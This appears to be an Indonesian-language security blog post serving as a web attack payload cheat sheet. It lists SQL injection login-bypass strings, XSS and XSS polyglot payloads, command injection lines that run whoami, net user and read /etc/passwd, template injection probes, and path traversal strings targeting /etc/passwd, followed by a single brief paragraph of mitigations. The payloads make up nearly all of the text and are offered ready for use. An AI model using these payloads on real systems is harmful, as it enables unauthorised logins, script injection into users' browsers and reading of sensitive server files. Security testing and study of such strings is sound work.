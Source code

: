 ```yaml
---
title: Security Researcher - SQLi Authentication Bypass, XSS, XSS Polyglots, Command Injection, SSTI, Path Traversal
excerpt: SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.
date: 2024-03-31 01:37:00
tags: [1337rokudenashi]
categories:
  - [Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/yublueflower.jpg
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337yublueflower.jpg
---
```


SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.

**SQLi Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**XSS**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**SSTI**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Untuk SQLi Auth Bypass, gunakan prepared statements dan validasi input. Untuk XSS dan XSS Polyglots, lakukan output encoding dan sanitasi. Untuk Command Injection, batasi eksekusi dan validasi input. Untuk SSTI, hindari evaluasi input langsung. Untuk Path Traversal, batasi akses dan normalisasi path.

